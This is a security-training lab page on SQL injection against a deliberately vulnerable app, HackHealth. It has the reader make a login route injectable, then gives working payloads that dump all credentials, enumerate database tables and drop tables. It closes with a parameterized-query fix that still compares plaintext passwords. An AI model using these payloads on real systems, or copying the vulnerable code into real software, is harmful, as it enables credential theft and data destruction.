 
# SQL Injection

<Callout type="warning" emoji="🔍">
  **CWE-89**: SQL Injection <br />
</Callout>

## About

## Attack
### Code preparation
To prepare for this attack, we need to slightly modify the implementation of handling the login request, because we have already implemented secure way in section [❕JWT authentication](/cybersecurity/a02/jwt). <br />
Replace the handling of login request in `routes/jwtAuth.ts` with the following code:
```js filename="jwtAuth.ts"  copy showLineNumbers
// LOGIN
router.post("/login", bruteforce.prevent, async (req, res) => {
    const {email, password} = req.body;
    let user = null;

    try {
        user = await pool.query(
            "SELECT email, password from useraccount WHERE email = '" + email + "'"
        );

        if (user?.rows?.length === 0 || user?.length === 0) {
            return res.status(401).json({message: "Invalid email or password.", user: user});
        }

        const validPassword = password === user.rows[0].password;

        if (!validPassword) {
            return res.status(401).json({message: "Invalid email or password.", user: user});
        }

        const token = generateJWT(user.rows[0].password);
        res.json({
            success: true,
            message: "Authentication successful!",
            token: token,
            user: user
        });
    } catch (err) {
        console.error(err.message);
        res.status(500).send({message:"Server error", user: user});
    }
});
```

<Callout emoji="💡">
Compared to previous implementation, we get rid of the `inputValidation` middleware, we handle passwords as plain text and we adjusted the query to be vulnerable to SQL injection.
</Callout>

### Gather internal information
Firstly, we are going to gather some internal information about the database and tables, which will then help us to perform some more serius attacks. <br />
#### **Database type** <br />
* Enter the following inside the email field on HackHealth login screen.
```sql copy
' UNION SELECT usename, NULL FROM pg_user--
``` 
* Leave the password field empty and click on the login button. <br />
* When you open Developer Tools, in the Console, when digging deeper into `user.rows` in JSON response from the server, you will see the type of the database which is used. <br />
<Image src="/a03/a03_1.png" alt="Burp intruder" width={1000} height={300}/>
#### **Database name** <br />
* Enter the following inside the email field on HackHealth login screen, keep the password field empty and hit Login.
```sql copy
' UNION SELECT current_database(), null--
```
* After digging deeper into servers response, in `user.rows`, you will see the name of the database: `hackhealthdb` <br />
#### **Names of tables** <br />
* In the same way as in the previous step, we can get the name of the database by inserting following code into the email field.
```sql copy
'; SELECT table_name FROM information_schema.tables WHERE table_schema='public'; --
```
* Again, after digging deeper into `user[1].rows`, you will see the names of the tables. <br />
    * useraccount
    * appointment
    * medicalreport
<Callout emoji="💡">
To sum up, we have gathered the following information: <br />
* Database type: PostgreSQL
* Database name: hackhealthdb
* Names of tables: useraccount, appointment, medicalreport <br />

We are going to use this information in the next steps.
</Callout>

### Grant unauthorized access
In this attack, our aim is to get login credentials for all the users in the table `useraccount`. <br />
Into an email field, we are going to insert the following code:
```sql copy
' OR 1=1; --
```
<Callout type="info" emoji="ℹ️">
This input would cause the SQL query to be constructed as follows: <br />
```sql copy
SELECT email, password form useraccount WHERE email = '' OR 1=1; --
```
The semicolon (;) terminates the current statement and the two dashes (--) indicate a comment, effectively ignoring the remaining part of the original query. The injected SQL code OR 1=1 will always evaluate to true, effectively bypassing the authentication check and returning all records from the "useraccount" table.
</Callout>
* In the response from the server (`user.rows`), we are now able to see all the users with their login credentials. <br />

### Corrupt the tables and database
SQL injection attack is not only about getting the data, but also about corrupting the data. <br />
#### **Drop the table** <br />
* Enter the following inside the email field on HackHealth login screen.
```sql copy
'; DROP TABLE useraccount CASCADE; --
```
* Congratulations, you have just dropped the table `useraccount`! <br />
* Now, when you try to log in with the credentials you have obtained in the previous step, you will not be able to log in -> the table of users just do not exist anymore. <br />
<Callout type="info" emoji="ℹ️">
This was made possible only because when creating the tables, foreign key were created with CASCADE option. It means that when the table is dropped, all the tables that depend on it are also dropped. <br />
</Callout>

#### **Drop the database** <br />
	Dropping the database is quite more challenging that dropping individual tables. When you will try to execute command:
    ```sql copy
	'; DROP DATABASE hackhealthdb; --
    ``` 
    you will get an error in the server log: `DROP DATABASE cannot run inside a transaction block`.
	This indicates that PostgreSQL does not allow a database to be dropped while there are active connections to it. This is to prevent accidental data loss due to unintended drops. Solution would be to terminate all running connections to the database, but this could not be done through SQL injection. <br />
	Although the attempt about dropping whole database was not successful, we have  already caused considerable damage.

<Callout type="error" emoji="️🚫">
  Do not forget to put the database to initial state after the attack. <br />
  To do so, stop the server and run the following commands in the terminal:
    ```bash copy
    npm run db-drop
    npm run db-create
    npm run db-seed
    ```
    After running the following commands, db should be in the initial state.
</Callout>

## Prevention
To prevent SQL injection attacks, it's important to use **parameterized queries** instead of concatenating user input directly into SQL queries. Parameterized queries use placeholders for user input and sanitize the input to prevent malicious SQL code from being executed. <br />
In the source code, we can replace current implementation of handling login request with the following code:
```js filename="jwtAuth.ts"  copy showLineNumbers
// LOGIN
router.post("/login", bruteforce.prevent, inputValidation, async (req, res) => {
    const {email, password} = req.body;

    try {
        const user = await pool.query(
            "SELECT * FROM useraccount WHERE email = $1",
            [email]
        );

        if (user.rows.length === 0) {
            return res.status(401).json("Invalid email.");
        }

        // VUL A02
        // const validPassword = await bcrypt.compare(password, user.rows[0].password);

        const validPassword = password === user.rows[0].password;

        if (!validPassword) {
            return res.status(401).json("Invalid password.");
        }

        const token = generateJWT(user.rows[0].password);
        res.json({
            success: true,
            message: "Authentication successful!",
            token: token,
        });
    } catch (err) {
        console.error(err.message);
        res.status(500).send("Server error");
    }
});
```
As you can see in the code above, we are using placeholders for user input and sanitizing the input (inputValidation middleware) to prevent malicious SQL code from being executed. <br />
<br />
Also, in the file `Login.js` (easily find by pressing Shift+Shift and typing Login.js), we need to delete line:
```js copy
console.log(parseJSON)
```
By deleting the line, we will no longer be able to see the response from the server in the Console in Developer Tools, which is definitely a better practise.


## Verification
To verify that the vulnerability has been fixed, you can try running some commands from Attack section again. The result should be, that injecting malicious SQL code into email field will not trigger any unintended behavior. <br /> 

## Sources
* https://cwe.mitre.org/data/definitions/89.html\
* Bachelor thesis
